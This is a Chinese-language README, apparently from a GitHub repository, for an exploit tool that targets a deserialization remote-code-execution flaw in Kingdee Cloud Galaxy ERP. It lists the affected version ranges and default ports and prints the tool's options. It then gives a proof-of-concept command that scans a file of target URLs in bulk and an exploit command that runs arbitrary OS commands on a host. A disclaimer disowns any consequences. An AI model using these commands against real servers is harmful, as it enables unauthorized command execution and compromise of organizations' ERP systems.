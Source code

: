 ## 金蝶云星空 Kingdee-erp-Unserialize-RCE

由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。该漏洞不仅存在于金蝶云星空管理中心（默认8000端口），普通应用（默认80端口）也存在类似问题。

影响范围：

6.x版本：低于6.2.1012.4

7.x版本：7.0.352.16 至 7.7.0.202111

8.x版本：8.0.0.202205 至 8.1.0.20221110

```
usage: Kingdee-erp-Unserialize-RCE.py [-h] [-u URL] [--check] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY] [--cmd CMD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  --check               Check if vulnerable
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

### poc

```
python .\Kingdee-erp-Unserialize-RCE.py -f .\url.txt --check -t 10
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/1.png)

### exp

```
python .\Kingdee-erp-Unserialize-RCE.py -u http://host --cmd 'dir'
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。
